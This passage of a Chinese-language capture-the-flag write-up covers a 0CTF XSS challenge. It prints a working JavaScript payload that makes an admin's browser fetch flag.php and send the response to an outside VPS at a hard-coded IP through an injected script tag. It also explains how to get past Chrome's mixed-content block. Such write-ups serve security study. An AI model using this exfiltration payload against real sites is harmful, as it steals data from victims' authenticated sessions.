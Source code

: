 这种形式去引用一个https://ip/index.html的数据，而且它能对index.html的js进行解析执行！

接下来的思路就是，让admin触发xss，iframe加载一个页面，页面中的js执行，访问flag.php，然后再把数据打到我们的VPS中。

Index.html页面如下

```html
<html>
<head>
</head>
<script>


/**
 * Created by moxiaoxi on 2017/3/20.
 */
function getinfo(str) {
    var node=document.createElement("script");
    node.type="text/javascript";
    node.src="http://104.224.169.90:6789/"+escape(str);
    document.getElementsByTagName("HEAD")[0].appendChild(node);
}

var xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","https://router.vip/flag.php",true);
xmlhttp.onreadystatechange=function()
{
    //if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        getinfo(xmlhttp.responseText);
    }
}
xmlhttp.send();


</script>
</html>
```

可以看到，服务器执行了js

![xss1](https://mo-xiaoxi.github.io/img/post/0ctf/xss1.png)

但，此时我们的VPS是收不到的数据的，因为发送请求被Chrome拦截下来了

```
Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
```

https加载src一个http的页面，它会自动拦截掉。

所以，我们把前面的http改成https即可（注：这样会导致数据乱码，当时主要想测能不能弹数据）

此时可以在我们的VPS上看到数据：
